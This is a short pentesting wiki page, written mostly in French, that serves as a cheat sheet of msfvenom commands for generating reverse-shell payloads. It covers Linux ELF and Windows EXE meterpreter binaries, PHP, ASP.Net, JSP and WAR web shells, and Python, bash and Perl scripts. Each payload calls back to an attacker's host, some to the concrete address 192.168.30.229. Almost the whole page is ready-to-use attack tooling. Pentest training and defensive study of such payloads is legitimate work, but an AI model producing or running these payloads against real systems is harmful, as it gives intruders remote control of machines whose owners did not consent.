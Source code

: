 ```yaml
---
title: Reverse Shells
permalink: /Reverse_Shells/
---
```


# Reverse Shells

msfvenom
--------

### Payloads Executables

Rever shell en binaire ELF (Linux)

``` bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

Reverse shell (Windows)

``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

### Payloads Webs

Reverse shell en PHP

``` bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.30.229 LPORT=443 -f raw > shell.php
```

Reverse shell en ASP.Net

``` bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.30.229 LPORT=443 -f asp > meterpreter.asp
```

Reverse shell JSP

``` bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

Reverse shell sous forme de WAR

``` bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

### Payloads Scripts

Script python

``` bash
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
```

Script bash

``` bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
```

Script perl

``` bash
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```

Ressources
----------

-   [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[Category:Exploitation](/Category:Exploitation "wikilink")
